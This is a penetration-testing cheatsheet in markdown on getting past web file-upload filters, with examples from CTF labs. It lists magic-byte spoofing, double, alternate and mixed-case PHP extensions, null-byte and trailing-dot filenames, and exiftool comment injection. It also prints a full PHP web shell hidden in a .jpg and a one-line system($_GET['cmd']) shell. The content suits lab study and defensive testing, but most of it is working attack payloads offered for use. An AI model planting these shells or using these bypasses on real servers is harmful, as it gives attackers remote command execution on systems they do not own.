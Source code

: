 ```yaml
---
title: Cheatsheet - Upload Bypass
categories: [Cheatsheet, Web]
tags: [cheatsheet/web, exploit/file-upload-bypass]
img_path: /Cheatsheet/Web/Upload bypass/images
---
```



# Magic Bytes; header
![](Pasted%20image%2020220415215405.png)
- if uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
	```
	GIF89a;
	```
- Some Examples:
	- [Vulnhub PwnLab - Bypass upload via header](https://youtu.be/Q85ku046Q_E?t=1210)

# Append the allowed extension
- If only `.png` allowed, try appending `.png` at the end
- Try both ways
	```
	.php.png
	.png.php
	```
	- Some Examples:
		- [Vulnhub Fristileaks 1.3 - Upload bypass via appending](https://youtu.be/jPW_0BFxAYU?t=658)

# Other PHP Extensions
```
php1
php2
php3
php4
php5
phptml
```
- Some Examples
	- [TryHackMe RootMe - Upload bypass via other PHP ext](https://youtu.be/7ZgZv6yJtjM?t=315)
	- [TryHackMe Vulnveristy - Upload bypass via other PHP ext](https://youtu.be/VoY2ERH08Bs?t=564)

# Case Sensitive Extensions
```
shell.pHP
shell.PhP
shell.pHP4
shell.PhPtml
shell.phP5
```


# Insert .jpg webshell
- Requires LFI to work
	```
	cat > bingchilling.jpg <<EOF
	<html>
	<body>
	<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
	<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
	<input type="SUBMIT" value="Execute">
	</form>
	<pre>
	<?php
		if(isset($_GET['cmd']))
		{
			system($_GET['cmd']);
		}
	?>
	</pre>
	</body>
	</html>
	EOF
	```
	```
	<?php system($_GET['cmd']); ?>  //shell.php
	exiftool "-comment<=shell.php" malicious.png
	strings malicious.png | grep system
	```
- Some Examples:
	- TryHackMe HackerOne Easy Port 8001

# Nullbyte
```
shell.jpeg%00.php
shell.png%00.php
```

# Trailing (Windows)
- Adding `.` to the end
	```
	shell.aspx.
	shell.php.
	shell.exe.
	```
	
# Exiftool:
- If web application is accepting uploaded files which are passed to exiftool, can, in turn lead to RCE.
- https://hackerone.com/reports/1154542

# RCE via filename
![](Pasted%20image%2020220415215647.png)

# Use burpsuite to find bypass
![](uploadBypass php extension.png)
![](uploadBypass payloads.png)
![](uploadBypass position.png)
![](uploadBypass Results.png)

# Sources:
https://www.onsecurity.io/blog/file-upload-checklist/


